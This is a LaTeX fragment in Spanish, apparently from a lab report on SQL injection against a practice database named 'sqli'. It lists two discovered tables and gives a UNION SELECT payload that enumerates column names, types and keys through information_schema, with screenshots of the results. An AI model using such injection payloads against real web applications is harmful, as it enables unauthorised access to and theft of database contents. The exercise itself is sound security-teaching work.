 \documentclass[a4paper,oneside]{article}
\begin{document}
\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.3]{images/tables.png}
  \caption{Query de obtención de tablas de la base de datos en uso}
  \label{fig:tables}
\end{figure}

Como resultado la página devuelve 2 tablas que componen la base de datos actual (sqli):
\begin{itemize}
\item asignaturas
\item departamentos
\end{itemize}

Vamos a inspeccionar el contenido de cada una de estas tablas, para ello primero sacaremos las columnas de las mismas a través de la tabla information\_schema.

\begin{lstlisting}[caption={Inyección SQL para sacar las columnas de las tablas de la base de datos en uso}, language=SQL]
UNION SELECT null, concat(TABLE_NAME,':',COLUMN_NAME,':',IS_NULLABLE,':',DATA_TYPE,':',COLUMN_KEY) FROM information_schema.columns WHERE table_schema = database();
\end{lstlisting}

\begin{figure}[h!]
  \centering
  \includegraphics[scale=0.3]{images/columns.png}
  \caption{Query de obtención de las columnas de las tablas de la base de datos en uso}
  \label{fig:tables}
\end{figure}
\end{document}

